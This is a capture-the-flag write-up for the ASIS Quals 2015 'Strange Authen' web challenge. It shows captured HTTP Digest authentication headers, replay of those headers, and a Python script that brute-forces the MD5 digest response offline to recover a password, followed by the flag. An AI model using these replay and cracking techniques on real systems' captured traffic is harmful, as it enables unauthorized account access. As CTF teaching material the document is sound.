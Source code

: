# ASIS Quals CTF 2015: Strange Authen

**Category:** Web
**Points:** 225
**Solves:** 12
**Description:**

> Go [there](http://strangeauthen.asis-ctf.ir/) and find the flag.

## Write-up

by [Ghaaf](https://github.com/Ghaaf)

After spend sometimes to find some vulnerabilities with no luck I check robots.txt, there was an important path there and it was misc folder contains pcap file. So take a look at pcap and filter with ‘http && ip.dst == 217.218.48.85’ and get some interesting packets:

	GET /login.php HTTP/1.1
	Host: strangeauthen.asis-ctf.ir
	Connection: keep-alive
	Authorization: Digest username="admin", realm="this page for admin only, go out", nonce="5549f5f40edf1", uri="/login.php", response="d9ace07007cb801fa28a3bba92ddd515", opaque="e7c2664182934b3197e2e8dc48dbcf41", qop=auth, nc=00000393, cnonce="e7c3a4eefacfefbb"
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36
	DNT: 1
	Referer: http://strangeauthen.asis-ctf.ir/
	Accept-Encoding: gzip, deflate, sdch
	Accept-Language: en-US,en;q=0.8,fa;q=0.6,de;q=0.4
	Cookie: PHPSESSID=hkgvkkaoq60v2bv613r2uouq22
	
	GET /login.php HTTP/1.1
	Host: strangeauthen.asis-ctf.ir
	Connection: keep-alive
	Authorization: Digest username="factoreal", realm="this page for admin only, go out now!", nonce="554aed8c0b2d8", uri="/login.php", response="d9b58c347f96195884ce27036f3c9546", opaque="d073cc4342291e6270746b4675498022", qop=auth, nc=00000001, cnonce="d6d1a0a39a93b4c3"
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36
	DNT: 1
	Referer: http://strangeauthen.asis-ctf.ir/index.html
	Accept-Encoding: gzip, deflate, sdch
	Accept-Language: en-US,en;q=0.8,fa;q=0.6,de;q=0.4
	Cookie: PHPSESSID=hkgvkkaoq60v2bv613r2uouq22
	
	GET /7he_most_super_s3cr3t_page.php HTTP/1.1
	Host: strangeauthen.asis-ctf.ir
	Connection: keep-alive
	Authorization: Digest username="factoreal", realm="this page for admin only, go out now!", nonce="554aed8c0b2d8", uri="/7he_most_super_s3cr3t_page.php", response="587bb0cf4968b88fdf00c8ae81ff8bf4", opaque="d073cc4342291e6270746b4675498022", qop=auth, nc=00000002, cnonce="bd65e746ecf4d7e7"
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36
	DNT: 1
	Referer: http://strangeauthen.asis-ctf.ir/login.php
	Accept-Encoding: gzip, deflate, sdch
	Accept-Language: en-US,en;q=0.8,fa;q=0.6,de;q=0.4
	Cookie: PHPSESSID=hkgvkkaoq60v2bv613r2uouq22

At first I try to login by changing Authorization with Tamper data, the first one doesn’t work the second one, BOOM…
I logged in as factorial so let see most secret page… It needs to login! Lets try the 3rd one, no luck…
So what’s the point, it’s digest access authentication so maybe I should bruteforce the password, lets ask google and the first result was Wikipedia ‘Digest access authentication’.
The example points to 3 important things:

	1. The MD5 hash of the combined username, authentication realm and password is calculated. The result is referred to as HA1.
	2. The MD5 hash of the combined method and digest URI is calculated, e.g. of "GET" and "/dir/index.html". The result is referred to as HA2.
	3. The MD5 hash of the combined HA1 result, server nonce (nonce), request counter (nc), client nonce (cnonce), quality of protection code (qop) and HA2 result is calculated. The result is the "response" value provided by the client.

We have everything except password:

	username="factoreal"
	realm="this page for admin only, go out now!"
	nonce="554aed8c0b2d8"
	uri="/login.php"
	response="d9b58c347f96195884ce27036f3c9546"
	qop=auth
	nc=00000001
	cnonce="d6d1a0a39a93b4c3"

I ask about password type and admin points to the top password lists, so I write my script to bruteforce and I just need to password list that contains our goal:

	import hashlib
	
	password = open('passwords.txt').read().splitlines()
	h2 = hashlib.md5("GET:/login.php").hexdigest()
	for i in range(len(password)):
		h1 = hashlib.md5("factoreal:this page for admin only, go out now!:" + password[i]).hexdigest()
		result = hashlib.md5(h1 + ":554aed8c0b2d8:00000001:d6d1a0a39a93b4c3:auth:" + h2).hexdigest()
		if result == "d9b58c347f96195884ce27036f3c9546":
			print "[*] Password found: " + password[i]
			exit()

I try some password list and it was really hard to find the best one, but finally it works and I find the password:

	[*] Password found: secpass

So let’s login again. It works, but stuck on visiting top secret page…  I try to sync admin content with my own, PHPSESSID and UserAgent, another try and it doesn’t work! I ask admin and he tells that I’m in right way, but why it doesn’t work! He points to change cookie date and I do it, change that to 2016 and try again, let’s check the page:

	Welcome factoreal, nice to see you again!
	Congratz! Great you found me!

And here is the Flag:

	ASIS{004efe5ec5867811f4f13bc8f9921517}

## Other write-ups and resources

* <https://ucs.fbi.h-da.de/writeup-asis-ctf-quals-2015-strange-authen/>
